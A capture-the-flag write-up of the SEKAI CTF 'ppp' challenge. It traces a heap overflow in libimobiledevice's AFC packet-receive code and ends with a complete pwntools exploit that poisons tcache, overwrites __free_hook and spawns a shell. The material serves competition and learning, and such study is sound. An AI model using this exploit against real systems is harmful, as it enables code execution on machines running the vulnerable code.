










### Overview
This is easiest pwn challenge in sekai ctf, and it got quite some solves and it was very nerfed. No ASLR, No safe linking in libc. No ASLR was really a nail in the coffin cuz it made challenge a lot easier than it would be.


#### Day 2
I entered in CTF kinda late and saw a challenge with tagged zero day and easy, has lotta solves. My excitement dropped by half cuz I kinda don't like auditing long source code in CTF. On first glance it seemed a networking type challenges, sending and receiving packets both via stdin. Well Vuln was not hard to find but I couldn't setup the gdb and I took my first L and accepted the infra-setup-skill-issue and went to nap.

#### Day 3
I wokeup and saw that my webber teammate already solved it and submitted the flag. I took another L and went to sleep.

#### Day 7
After getting humiliated by pwn challenges in R3CTF, I came back to this challenge and this time I was not alone, I had clanker in my antigravity with me, and told it to setup the debugging environment. And i was back again with gdb, my my preciousssss....
But then I found out that I can't setup break point in it and neither there was any debug symbols. And now instead of challenge I got nerfed. But I could see the memory mapping and It was more than enough to solve.






### Sauce Code & Exploitation
Honestly there are too many loc and I don't want to insert every loc in this blog. I'll just add some snippet and explain stuff.
Morever, I'll just mention how I solved this challenge instead of just posting the solves. There is too much to audit and most of the loc in sauce in not even necessary to know. Only thing required to solve this is to know where is malloc and free.




As you can see it is menu type with some option and when i enter ls it  prints 8-byte ```AFC_MAGIC_STR``` and waits for input.
```c
else if (!strcmp(cmd, "ls")) {
char **l = NULL;
afc_error_t e = afc_read_directory(afc, arg ? arg : "/", &l);
if (e == AFC_E_SUCCESS && l) print_names(l);
else printf("ls: afc error %d\n", e);
```
afc_read_directory is called with afc and arg from input. Touring the source code in libimobildevice,
```c
afc_error_t afc_read_directory(afc_client_t client, const char *path, char ***directory_information)
{
	uint32_t bytes = 0;
	char *data = NULL, **list_loc = NULL;
	afc_error_t ret = AFC_E_UNKNOWN_ERROR;

	if (!client || !path || !directory_information || (directory_information && *directory_information))
		return AFC_E_INVALID_ARG;

	afc_lock(client);

	uint32_t data_len = (uint32_t)strlen(path)+1;
	if (_afc_check_packet_buffer(client, data_len) < 0) {
		afc_unlock(client);
		debug_info("Failed to realloc packet buffer");
		return AFC_E_NO_MEM;
	}

	/* Send the command */
	memcpy(AFC_PACKET_DATA_PTR, path, data_len);
	ret = afc_dispatch_packet(client, AFC_OP_READ_DIR, data_len, NULL, 0, &bytes);
	if (ret != AFC_E_SUCCESS) {
		afc_unlock(client);
		return AFC_E_NOT_ENOUGH_DATA;
	}
	/* Receive the data */
	ret = afc_receive_data(client, &data, &bytes);
```
This last line is lifeline of this challenge. My initial guess was that the ```MAGIC```  string that is getting printed must be due to the ```afc_dispatch_packet```.
```c
static afc_error_t afc_receive_data(afc_client_t client, char **bytes, uint32_t *bytes_recv)
{
	AFCPacket header;
	uint32_t entire_len = 0;
	uint32_t this_len = 0;
	uint32_t current_count = 0;
	uint64_t param1 = -1;
	char *buf = NULL;
	uint32_t recv_len = 0;

	if (bytes_recv) {
		*bytes_recv = 0;
	}
	if (bytes) {
		*bytes = NULL;
	}

	/* first, read the AFC header */
	afc_error_t err = service_to_afc_error(service_receive(client->parent, (char*)&header, sizeof(AFCPacket), &recv_len));
	if (err != AFC_E_SUCCESS) {
		debug_info("Failed to receive AFC header: %s (%d)", afc_strerror(err), err);
		return err;
	}
	if (recv_len == 0) {
		debug_info("Just didn't get enough.");
		return AFC_E_NOT_ENOUGH_DATA;
	}

	if (recv_len < sizeof(AFCPacket)) {
		debug_info("Did not even get the AFCPacket header");
		return AFC_E_NOT_ENOUGH_DATA;
	}
  	/* make sure endianness is correct */
	AFCPacket_from_LE(&header);


```
As comment mentioned, the input from user is due to ```service_to_afc_error``` and it recv_len should be equal to size of AFCpacket.
I found about AFCPacket in given source code which is this
```c

typedef struct {
	char magic[AFC_MAGIC_LEN];
	uint64_t entire_length, this_length, packet_num, operation;
} AFCPacket;

#define AFCPacket_to_LE(x) \
 	(x)->entire_length = htole64((x)->entire_length); \
	(x)->this_length   = htole64((x)->this_length); \
	(x)->packet_num    = htole64((x)->packet_num); \
	(x)->operation     = htole64((x)->operation);

#define AFCPacket_from_LE(x) \
	(x)->entire_length = le64toh((x)->entire_length); \
	(x)->this_length   = le64toh((x)->this_length); \
	(x)->packet_num    = le64toh((x)->packet_num); \
	(x)->operation     = le64toh((x)->operation);

```
So input should be in form of this struct, and also confirmed from ```AFCPacket_from_LE this``` line.
```c
	/* check if it's a valid AFC header */
	if (strncmp(header.magic, AFC_MAGIC, AFC_MAGIC_LEN) != 0) {
		debug_info("Invalid AFC packet received (magic != " AFC_MAGIC ")!");
		return AFC_E_UNKNOWN_PACKET_TYPE;
	}

/* check if it has the correct packet number */
	if (header.packet_num != client->afc_packet->packet_num) {
		/* otherwise print a warning but do not abort */
		debug_info("ERROR: Unexpected packet number (%lld != %lld) aborting.", header.packet_num, client->afc_packet->packet_num);
		return AFC_E_OP_HEADER_INVALID;
	}

	/* then, read the attached packet */
	if (header.this_length < sizeof(AFCPacket)) {
		debug_info("Invalid AFCPacket header received!");
		return AFC_E_OP_HEADER_INVALID;
	}
	if ((header.this_length == header.entire_length)
		&& header.entire_length == sizeof(AFCPacket)) {
		debug_info("Empty AFCPacket received!");
		if (header.operation == AFC_OP_DATA) {
			return AFC_E_SUCCESS;
		}
		return AFC_E_IO_ERROR;
	}

```
Now this is some condition to validate the packet, this_lenght should be less than 0x28 and this_length should not be equal to entire_length and 0x28 otherwise this will return.
```c

	entire_len = (uint32_t)header.entire_length - sizeof(AFCPacket);
	this_len = (uint32_t)header.this_length - sizeof(AFCPacket);

	buf = (char*)malloc(entire_len);
	if (this_len > 0) {
		recv_len = 0;
		err = service_to_afc_error(service_receive(client->parent, buf, this_len, &recv_len));
		if (err != AFC_E_SUCCESS) {
			free(buf);
			debug_info("Failed to receive data: %s (%d)", afc_strerror(err), err);
		}
		if (recv_len <= 0) {
			free(buf);
			debug_info("Did not get packet contents!");
			return (err == AFC_E_SUCCESS) ? AFC_E_NOT_ENOUGH_DATA : err;
		}
		if (recv_len < this_len) {
			free(buf);
			debug_info("Could not receive this_len=%d bytes", this_len);
			return (err == AFC_E_SUCCESS) ? AFC_E_END_OF_DATA : err;
		}
	}

	current_count = this_len;
  if (entire_len > this_len) {
		while (current_count < entire_len) {
			recv_len = 0;
			err = service_to_afc_error(service_receive(client->parent, buf+current_count, entire_len - current_count, &recv_len));
			if (err != AFC_E_SUCCESS) {
				debug_info("Error receiving data: %s (%d)", afc_strerror(err), err);
				break;
			}
			if (recv_len <= 0) {
				debug_info("Error receiving data (recv returned %d)", recv_len);
				break;
			}
			current_count += recv_len;
		}
		if (current_count < entire_len) {
			free(buf);
			debug_info("ERROR: Could not receive entire packet (read %i/%i)", current_count, entire_len);
			return (err == AFC_E_SUCCESS) ? AFC_E_END_OF_DATA : err;
		}
	}
```

Now comes the banger line, It firsts update both entire_lenth and this_length and allocate a chunk with size of updated_entire_length, but it reads upto updated_this_Length in ```service_to_afc_error``` granting us a very sweet heap overflow.
You can read the source code in [service.c](https://github.com/libimobiledevice/libimobiledevice/blob/master/src/service.c) and [device.c](https://github.com/libimobiledevice/libimobiledevice/blob/master/src/idevice.c), I tested it with gef and indeed ```top_chunk``` was corrupted.


```python
io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x50,0x60,0x1,0x0)
io.send(payload)
io.send(b"A"*(0x60-0x28))
```




To check this lfc error number I used this [API Documentation](https://docs.libimobiledevice.org/libimobiledevice/latest/afc_8h.html) so just to know in which loc error occured.

One of the check is afc_recieve_data was of correct packet num. In afc_dispatch_packet packet num is updated by +1. So I tested this by sending two consecutive packets starting from 0x1 and then 0x2 and it returned with no error.
```c
static afc_error_t afc_dispatch_packet(afc_client_t client, uint64_t operation, uint32_t data_length, const char* payload, uint32_t payload_length, uint32_t *bytes_sent)
{
	uint32_t sent = 0;

	if (!client || !client->parent || !client->afc_packet)
		return AFC_E_INVALID_ARG;

	*bytes_sent = 0;

	if (!payload || !payload_length)
		payload_length = 0;

	client->afc_packet->packet_num++;
	client->afc_packet->operation = operation;
	client->afc_packet->entire_length = sizeof(AFCPacket) + data_length + payload_length;
	client->afc_packet->this_length = sizeof(AFCPacket) + data_length;

```

now next is some operation check and then
```c
	if (bytes) {
		*bytes = buf;
	} else {
		free(buf);
	}

	*bytes_recv = current_count;
	return AFC_E_SUCCESS;
```
I initially did not understand this code but later i found it is way to manage memory.
In this afc_read_directory bytes in not null so if condition is true.
```c
	/* Receive the data */
	ret = afc_receive_data(client, &data, &bytes);
	if (ret != AFC_E_SUCCESS) {
		if (data)
			free(data);
		afc_unlock(client);
		return ret;
	}
	/* Parse the data */
	list_loc = make_strings_list(data, bytes);
	if (data)
		free(data);

	afc_unlock(client);
	*directory_information = list_loc;

	return ret;
```
So if ret is ```AFC_E_SUCCESS```, it does not free the memory and make_strings_list is not really necessary for exploit purpose but it does allocate a chunk of 0x20 bytes. But when I tested it in gdb I found out that memory is freed, and the reason is this in ```afc_list.c```
```c
/* free the parsed list (in cleanup order: reverse) */
static void free_list(char **list, int n)
{
    for (int i = n - 1; i >= 0; i--) free(list[i]);
    free(list);
}

/* directory / device listings: one entry per line */
static void print_names(char **list)
{
    int n = 0;
    while (list[n]) { puts(list[n]); n++; }
    free_list(list, n);
}

```
So there is heap overflow, every memory is freed after it returns but wait if there is no ```print_names``` then memory is not freed, right?
```c
        } else if (!strcmp(cmd, "mkdir")) {
            afc_error_t e = afc_make_directory(afc, arg ? arg : "/");
            puts(e == AFC_E_SUCCESS ? "OK" : "mkdir failed");

```
So I tried to mkdir with my tongue open and when i clicked vis in gef, I got clowned. As my hasty assumption was wrong.
```c
afc_error_t afc_make_directory(afc_client_t client, const char *path)
{
	uint32_t bytes = 0;
	afc_error_t ret = AFC_E_UNKNOWN_ERROR;

	if (!client)
		return AFC_E_INVALID_ARG;

	afc_lock(client);

	uint32_t data_len = (uint32_t)strlen(path)+1;
	if (_afc_check_packet_buffer(client, data_len) < 0) {
		afc_unlock(client);
		debug_info("Failed to realloc packet buffer");
		return AFC_E_NO_MEM;
	}

	/* Send command */
	memcpy(AFC_PACKET_DATA_PTR, path, data_len);
	ret = afc_dispatch_packet(client, AFC_OP_MAKE_DIR, data_len, NULL, 0, &bytes);
	if (ret != AFC_E_SUCCESS) {
		afc_unlock(client);
		return AFC_E_NOT_ENOUGH_DATA;
	}
	/* Receive response */
	ret = afc_receive_data(client, NULL, &bytes);

	afc_unlock(client);

	return ret;
}
```
In ```afc_read_directory```, ```afc_recieve_data``` is called with ```NULL``` in second argument so  due to this loc buffer is going to be freed.
```cs
	if (bytes) {
		*bytes = buf;
	} else {
		free(buf);
	}

	*bytes_recv = current_count;
	return AFC_E_SUCCESS;
```
I tried all other options in afc_list and in one way or another, memory is always going to be freed.
And in this way there is not going to be a next_chunk pointer that can be corrupted by heap overflows. So I started looking for another vuln or some logic bugs that will cause double-free, but I could not find any.

So I started looking for another way to get heap pointer in chunk. Due to heap overflow, we can control not only change next_pointer but size of adjacent chunk too.

```c
  if (tc_idx < mp_.tcache_bins
      && tcache
      && tcache->counts[tc_idx] > 0)
    {
      return tcache_get (tc_idx);
    }

/* Caller must ensure that we know tc_idx is valid and there's
   available chunks to remove.  */
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  tcache->entries[tc_idx] = e->next;
  --(tcache->counts[tc_idx]);
  e->key = NULL;
  return (void *) e;
}


```
So when a chunk is allocated via malloc from tcache bins, size and address is known via tcache_perthread_struct but when a chunk is freed, the bins size is determined via chunk_metadata.

```python

io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x50,0x40,0x1,0x2)
io.send(payload)
io.send(b"A"*(0x50-0x28))

io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x50,0x60,0x2,0x2)
io.send(payload)
io.send(b"A"*(0x50-0x28))


io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x70,0x60,0x3,0x2)
io.send(payload)
io.send(b"A"*(0x70-0x28))


io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x40,0x60,0x4,0x2)
io.send(payload)
io.send(b"A"*(0x40-0x28)+pack(0x31))


io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x70,0x60,0x5,0x0)
io.send(payload)
io.send(b"A"*(0x70-0x28))

libc_base = 0x00007ffff7d65000
free_hook = libc_base+0x0000000001eee48
one_gadget = libc_base+0xe3b04

```


And we got the next_pointer in chunk and we can change that to ```__free_hook```. To gain control of the the ```__free_hook``` we have to change the size of chunk again.
when this freed_chunk will be malloced the ```__free_hook``` pointer will be written to tcache_perthread_struct but when the chunk will be freed the bins_size will be our updated_size leaving the ```__free_hook``` pointer in ```tcache_perthread_struct``` untouched.



```python
from pwn import *
import subprocess
context.log_level = "debug"
elf = context.binary = ELF("./afc_list")
io = remote("localhost", 5000)
# io = remote("ppp.chals.sekai.team", 1337)

def get_pid():
    local_port = io.sock.getsockname()[1]
    cmd = f"sudo lsof -n -iTCP:5000 -sTCP:ESTABLISHED | grep socat | grep ':{local_port}'"
    output = subprocess.check_output(cmd, shell=True).decode()
    socat_pid = int(output.split()[1])
    cmd2 = f"pgrep -P {socat_pid}"
    child_pid = int(subprocess.check_output(cmd2, shell=True).decode().strip())
    return child_pid

def gef(pid):
    gdb.attach(pid, gdbscript="""
# break *0x4011f0
""", exe=elf.path)

def gdb_with_pid():
    gef(get_pid())

gdb_with_pid()

def packet(entire_length,this_length,packet_num,operation):
    return b"CFA6LPAA"+pack(entire_length)+pack(this_length)+pack(packet_num)+pack(operation)

io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x50,0x40,0x1,0x2)
io.send(payload)
io.send(b"A"*(0x50-0x28))

io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x50,0x60,0x2,0x2)
io.send(payload)
io.send(b"A"*(0x50-0x28))


io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x70,0x60,0x3,0x2)
io.send(payload)
io.send(b"A"*(0x70-0x28))


io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x40,0x60,0x4,0x2)
io.send(payload)
io.send(b"A"*(0x40-0x28)+pack(0x31))


io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x70,0x60,0x5,0x2)
io.send(payload)
io.send(b"A"*(0x70-0x28))

libc_base = 0x00007ffff7d65000
free_hook = libc_base+0x0000000001eee48
one_gadget = libc_base+0xe3b04


io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x40,0x60,0x6,0x2)
io.send(payload)
io.send(b"A"*(0x40-0x28)+pack(0x31)+pack(free_hook-0x8))


io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x40,0x60,0x7,0x0)
io.send(payload)
io.send(b"A"*(0x40-0x28)+pack(0x51))

# #malloc 0x31 bytes

io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x50,0x60,0x8,0x0)
io.send(payload)
io.send(b"A"*(0x50-0x28))


io.recvuntil(b"afc>")
io.sendline(b"ls ")
payload = packet(0x50,0x60,0x9,0x0)
io.send(payload)
# payload = b"/readflag sekai ppp"
payload = b"/bin/sh\x00"
# payload+=b"\x00"*(0x28-len(payload))
payload += pack(libc_base+0x0000000000052290)
print(len(payload))
io.send(payload)
io.interactive()

```

All the attachments are here:[github](https://github.com/el-s1na/CTF-Scripts/tree/main/SEKAI-CTF/ppp/pwn_ppp)

### Aftermath
This challenge was more fun than I expected, touring through the codebases was kinda good and slightly helped in removing my fear of big codebases.
